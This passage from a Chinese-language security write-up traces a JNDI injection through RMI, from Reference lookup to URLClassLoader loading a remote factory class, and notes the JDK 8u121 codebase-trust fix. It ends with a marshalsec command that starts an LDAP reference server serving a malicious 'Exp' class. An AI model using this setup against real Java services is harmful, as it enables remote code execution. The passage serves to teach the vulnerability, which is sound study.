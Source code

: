 相当于进⾏了⼀次远程⽅法调⽤（⻅ RMI 中 的 "Client 发送请求"），⽽调⽤的⽅法为

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218211834.png)

正好对应着 RMI 服务端中的 ReferenceWrapper#getReference ⽅法（ReferenceWrapper 实现了 RemoteReference 接⼝）：

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211217125847.png)

于是这次远程⽅法调⽤的结果就是返回了远程 ReferenceWrpper 包装的 Reference 对象：

(条件运算符前面成立，返回前面得表达式)

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218212149.png)

继续跟代码，来到 NamingManager#getObjectInstance ⽅法，跟到`NamingManager##getObjectFactoryFromReference`方法获取factory实例

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218214023.png)

跟了以后发现，首先进行本地加载，加载失败以后，再从codebase加载factory

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218215814.png)

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218220020.png)

其中，下面的LoadClass加载方式为 URLClassLoader，成功加载了恶意代码

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218221857.png)

最后返回factory实例

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218213933.png)

### 修复

在 8U121之后，默认的RMI利用方式不再信任codebase

我这里以 8u181为例

在`RegistryContext#<static>`（末尾处）新增代码

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218222425.png)

在 `RegistryContext#decodeObject`处

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218222552.png)

LDAP方式
------

与RMI方式一样，使用marshalsec开启ldap服务

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalec.jndi.LDAPRefServer http://127.0.0.1:8000/#Exp
```
